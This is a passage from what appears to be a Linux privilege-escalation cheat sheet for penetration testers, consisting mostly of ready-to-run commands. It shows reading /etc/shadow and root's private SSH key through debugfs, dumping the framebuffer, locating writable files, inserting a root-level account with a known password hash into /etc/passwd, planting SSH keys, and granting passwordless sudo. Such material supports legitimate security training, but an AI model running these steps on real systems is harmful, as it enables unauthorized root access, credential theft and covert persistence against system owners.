 Are any of the discovered credentials being reused by multiple acccounts?  
`sudo - username`  
`sudo -s`  

Are there any Cron Jobs Running?  
`cat /etc/crontab`  

What files have been modified most recently?  
`find /etc -type f -printf '%TY-%Tm-%Td %TT %p\n' | sort -r`  
`find /home -type f -mmin -60`  
`find / -type f -mtime -2`  

Is the user a member of the Disk group and can we read the contents of the file system?  
`debugfs /dev/sda`  
`debugfs: cat /root/.ssh/id_rsa`  
`debugfs: cat /etc/shadow`  

Is the user a member of the Video group and can we read the Framebuffer?  
`cat /dev/fb0 > /tmp/screen.raw`  
`cat /sys/class/graphics/fb0/virtual_size`  

## Where can we WRITE?

What are all the files can I write to?  
`find / -type f -writable -path /sys -prune -o -path /proc -prune -o -path /usr -prune -o -path /lib -prune -o -type d 2>/dev/null`  

What folder can I write to?  
`find / -regextype posix-extended -regex "/(sys|srv|proc|usr|lib|var)" -prune -o -type d -writable 2>/dev/null`  

| Writable Folder / file    | Priv Esc Command                                                                                |
|---------------------------|-------------------------------------------------------------------------------------------------|
| /home/*USER*/             | Create an ssh key and copy it to the .ssh/authorized_keys folder the ssh into the account       |
| /etc/passwd               | manually add a user with a password of "password" using the following syntax<br>user:$1$xtTrK/At$Ga7qELQGiIklZGDhc6T5J0:1000:1000:,,,:/home/user:/bin/bash <br> You can even escalate to the root user in some cases with the following syntax: <br> admin:$1$xtTrK/At$Ga7qELQGiIklZGDhc6T5J0:0:0:,,,:/root:/bin/bash                         |

*Root SSH Key* If Root can login via SSH, then you might be able to find a method of adding a key to the /root/.ssh/authorized_keys file.  

```
cat /etc/ssh/sshd_config | grep PermitRootLogin
```  

*Add SUDOers* If we can write arbitrary files to the host as Root, it is possible to add users to the SUDO-ers group like so (NOTE: you will need to logout and login again as myuser):  
/etc/sudoers  

```
root    ALL=(ALL:ALL) ALL
%sudo   ALL=(ALL:ALL) ALL
myuser ALL=(ALL) NOPASSWD:ALL  
```

*Set Root Password* We can also change the root password on the host if we can write to any file as root:  
/etc/shadow  
